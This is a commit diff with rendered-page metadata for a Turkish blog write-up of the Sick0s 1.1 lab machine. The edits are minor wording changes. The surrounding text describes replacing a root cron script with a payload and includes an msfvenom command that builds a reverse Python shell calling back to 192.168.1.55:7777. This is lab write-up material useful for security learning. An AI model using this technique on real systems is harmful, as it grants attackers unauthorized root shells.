

Before and after one commit to burcudemiralp/burcudemiralp.github.io, a Jekyll site: the page built from _posts/2018-06-08-Sick0s:1.1-Writeup.md, in a window 1280 px wide and 900 px high, scrolled down 2688 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; some of the changed text lies outside the part shown.

Commit message:
Update 2018-06-08-Sick0s:1.1-Writeup.md

```diff
--- a/_posts/2018-06-08-Sick0s:1.1-Writeup.md
+++ b/_posts/2018-06-08-Sick0s:1.1-Writeup.md
@@ -49,11 +49,11 @@ Dosyalardan birini okuduğumda, root kullanıcısı tarafından her dakika çal
 <figure >
     <img src="/assets/img/sickos/sickoscron2.png">
 </figure>
-Scriptin var olduğu dizine gittiğimde güzel bir sürpriz ile karşılaştım.Dosya üzerinde tüm haklara sahiptim.Demek oluyorki dosyayı istediğim gibi manipüle edebilirim.
+Scriptin var olduğu dizine gittiğimde güzel bir sürpriz beni bekliyordu :) .Dosya üzerinde tüm haklara sahiptim.Demek oluyorki dosyayı istediğim gibi manipüle edebilirim.
 <figure >
     <img src="/assets/img/sickos/sickospy.png">
 </figure>
-connect.py dosyasının içeriğini bana shell verecek olan bir python koduyla değiştirdim.Bunun için msfvenom ile bir payload oluşturdum.
+Connect.py dosyasının içeriğini bana shell verecek olan bir python koduyla değiştirdim.Bunun için msfvenom ile bir payload oluşturdum.
 #### msfvenom -p cmd/unix/reverse_python LHOST=192.168.1.55 LPORT=7777 -f raw
 connect.py dosyasının içeriğini payload ile değiştirip, ardından bir dinleme başlatıp sistemin scripti çalıştırmasını bekledim.
 <figure >
```
Also changed, not shown: other parts of _posts/2018-06-08-Sick0s:1.1-Writeup.md (+2 -2 lines).
